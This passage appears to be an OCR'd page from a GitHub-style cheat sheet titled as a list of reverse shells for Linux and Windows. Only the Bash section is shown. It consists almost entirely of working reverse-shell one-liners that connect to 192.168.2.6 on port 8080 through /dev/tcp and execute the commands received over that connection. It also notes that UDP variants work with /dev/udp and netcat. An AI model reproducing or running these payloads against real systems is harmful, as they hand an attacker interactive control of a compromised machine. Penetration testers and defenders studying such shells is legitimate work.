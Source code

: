 ###### A list of reverse shells for linux and windows

Bash reverse shell
A bash reverse shell one-liner command using custom file descriptor is as follows (it won't be a tty):

exec 100<>/dev/tcp/192.168.2.6/8080 
cat <&100 | while read line; do $line 2>&100 >&100; done 
Or:

while read line 0<&100; do $line 2>&100 >&100; done 
A bash reverse shell one-liner command using bash's interactive mode is as follows:

bash -i >& /dev/tcp/192.168.2.6/8080 0>&1 
In both cases, you can use /dev/tcp for TCP-based reverse shell and /dev/udp for UDP-based reverse shell. (For a UDP connection, use the -u switch with netcat to get the shell over UDP.)
